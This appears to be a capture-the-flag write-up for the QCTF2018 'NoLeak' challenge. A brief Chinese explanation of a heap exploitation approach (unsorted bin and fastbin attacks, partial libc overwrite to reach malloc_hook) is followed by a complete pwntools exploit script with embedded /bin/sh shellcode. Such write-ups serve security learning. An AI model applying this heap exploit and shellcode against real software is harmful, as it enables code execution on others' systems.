 # QCTF2018 NoLeak
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题主要利用unsorted bin attack和fastbin attack，难点主要就在没有信息可以输出，无法通过常规的方法leak出libc基址来利用，看了官方wp之后发现竟然还可以通过修改libc最低字节来定位到malloc_hook进行修改。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>其他难点也没啥了，那就直接放脚本了。</font></br>

Exploit
======

```python
from pwn import *

DEBUG=1

p=process('./NoLeak')

if DEBUG==1:
    context.log_level='debug'
    gdb.attach(p)

def rv(c):
    p.recvuntil(c)

def sd(c):
    p.send(c)

def sl(c):
    p.sendline(c)

def add(size,c):
    rv('choice :')
    sl('1')
    rv('Size: ')
    sl(str(size))
    rv('Data: ')
    sd(c)

def delete(index):
    rv('choice :')
    sl('2')
    rv('Index: ')
    sl(str(index))

def update(index,size,c):
    rv('choice :')
    sl('3')
    rv('Index: ')
    sl(str(index))
    rv('Size: ')
    sl(str(size))
    rv('Data: ')
    sd(c)

def malloc_pwn():
    rv('choice :')
    sl('1')
    rv('Size: ')
    sl('2')

#-------------------------
# no leak this time,so use
# unsorted bin attack to
# edit the libc's last bit to
# overwrite the malloc_hook with 
# shellcode's address

shellcode='\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

add(0x68,'\n') 
add(0x98,'\n') 
add(0x68,'\n') 
add(0x98,'\n') 

delete(0)
delete(1)

update(1,0x10,p64(0x601060)*2)
update(0,8,p64(0x601060+13))

add(0x98,'\n') 
add(0x68,'\n') 
add(0x68,'a'*3+p64(0x601070)+p64(0x601040))

update(8,1,'\x10')
update(9,len(shellcode),shellcode)
update(6,8,p64(0x601040))

malloc_pwn()
p.interactive()

```
